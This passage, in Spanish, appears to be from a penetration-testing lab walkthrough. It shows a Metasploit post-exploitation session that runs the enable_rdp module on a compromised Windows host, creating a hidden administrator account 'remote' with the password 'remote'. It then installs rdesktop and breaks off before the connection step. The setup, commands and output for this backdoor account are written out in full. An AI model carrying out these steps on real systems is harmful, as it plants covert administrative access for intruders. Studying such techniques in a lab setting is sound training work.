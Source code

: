Al activar el modulo debemos configurarlo.

```bash
msf6 post(windows/manage/enable_rdp) > options

Module options (post/windows/manage/enable_rdp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ENABLE    true             no        Enable the RDP Service and Firewall Exception.
   FORWARD   false            no        Forward remote port 3389 to local Port.
   LPORT                      yes       The local port to forward to.
   PASSWORD                   no        Password for the user created.
   SESSION   4                yes       The session to run this module on
   USERNAME                   no        The username of the user to create.


View the full module info with the info, or info -d command.

msf6 post(windows/manage/enable_rdp) > set SESSION 5
SESSION => 5
msf6 post(windows/manage/enable_rdp) > set USERNAME remote
USERNAME => remote
msf6 post(windows/manage/enable_rdp) > set PASSWORD remote
PASSWORD => remote
msf6 post(windows/manage/enable_rdp) > set LPORT 3389
LPORT => 3389
msf6 post(windows/manage/enable_rdp) > run
[*] Enabling Remote Desktop
[*] 	RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] 	Terminal Services service is already set to auto
[*] 	Opening port in local firewall if necessary
[*] Setting user account for logon
[*] 	Adding User: remote with Password: remote
[*] 	Adding User: remote to local group 'Remote Desktop Users'
[*] 	Hiding user from Windows Login screen
[*] 	Adding User: remote to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20250129190138_default_10.10.82.44_host.windows.cle_133751.txt
[*] Post module execution completed
```
### Conectando al escritorio remoto

Como estamos en un entorno linux podemos hacer uso de la herramienta `rdesktop` para conectarnos al escritorio remoto.

```bash
sudo apt install -y rdesktop
```

Ahora conectarse al escritorio remoto con el siguiente comando:
